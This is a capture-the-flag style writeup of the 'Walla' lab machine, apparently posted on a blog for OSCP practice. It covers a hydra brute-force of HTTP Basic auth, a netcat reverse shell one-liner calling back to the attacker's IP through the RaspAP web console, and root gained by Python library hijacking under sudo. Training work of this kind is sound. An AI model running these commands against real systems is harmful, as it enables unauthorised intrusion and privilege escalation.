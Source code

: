 ```yaml
---
layout: post
title: PG Practice - Walla Writeup
date: 2024-06-02 02:00:00 +0100
published: true
categories: [PG Practice]
tags: [PG Practice,OSCP]
---
```


## Summary

Port 8091 is secured with Basic HTTP Authentication. We can use `hydra` to brute-force this login and get access to `RaspAP v2.5` dashboard. Here we can find Web Console under System tab and use it to get reverse shell on system. Enumerating system as user `www-data` we can see that this use can run `/usr/bin/python /home/walter/wifi_reset.py` with `sudo` privileges. Inspecting contents of  `/home/walter/wifi_reset.py` we can see that script is trying to import `wificontroller` library but it is missing. We can leverage this to escalate our privileges by hijacking missing library which will be executed with root privileges after running `/usr/bin/python /home/walter/wifi_reset.py` with `sudo`. 

___

## Reconnaissance

### Nmap

```
nmap -sV -sC -p- -oN ./nmapAll.txt 192.168.190.97 --max-retries=1
```

```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Not valid before: 2020-09-17T18:26:36
|_Not valid after:  2030-09-15T18:26:36
|_ssl-date: TLS randomness does not represent time
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: lighttpd/1.4.53
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 192.168.190.97 | **TCP**: 22, 23, 25, 53, 422, 8091, 42042 |


#### Port 8091

```
lighttpd 1.4.53
```

![[8091.png]]

##### Basic HTTP Authentication Brute-Force

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8091 -f 192.168.190.97 http-get
```

![[PG Practice/Intermediate/Walla/Screenshots/hydra.png]]

```
admin : secret
```

##### RaspAP v2.5

After logging in with newly found credentials I got access to `RaspAP v2.5` dashboard.

![[raspap.png]]

![[raspapVersion.png]]


___
## Initial Foothold

### RaspAP v2.5 - Web Console

While inspecting application I found web console available under System tab. 

![[raspapConsole.png]]

I was able to get reverse shell using this payload.

Payload:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.166 7003 >/tmp/f
```

![[PG Practice/Intermediate/Walla/Screenshots/reverseShell.png]]

Upgrading TTY:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

```
ctrl + z
```

```
stty raw -echo && fg
```

### Local.txt

![[PG Practice/Intermediate/Walla/Screenshots/localFlag.png]]


_____
## Privilege Escalation

### System Enumeration

```
sudo -l
```

![[PG Practice/Intermediate/Walla/Screenshots/sudoL.png]]

```
sudo /usr/bin/python /home/walter/wifi_reset.py
```

![[PG Practice/Intermediate/Walla/Screenshots/error.png]]

Contents if  `wifi_reset.py`:

![[wifi-reset.png]]

Error message shows that importing `wificontroller` was not successful. 

### Python Library Hijacking

I created `wificotroller.py` in the directory where the `wifi_reset.py` is executed. This file contains python script that spawns shell. After executing `wifi_reset.py` with `sudo` privileges the script will try to import our newly created file `wificotroller.py` and execute the contents which should result in spawning root shell. 

```
echo "import pty; pty.spawn("/bin/sh")" > wificontroller.py
```

![[wificontroller2.png]]

```
sudo /usr/bin/python /home/walter/wifi_reset.py
```

![[privilegeEscalation.png]]

___
## Post Exploitation

![[PG Practice/Intermediate/Walla/Screenshots/proofFlag.png]]


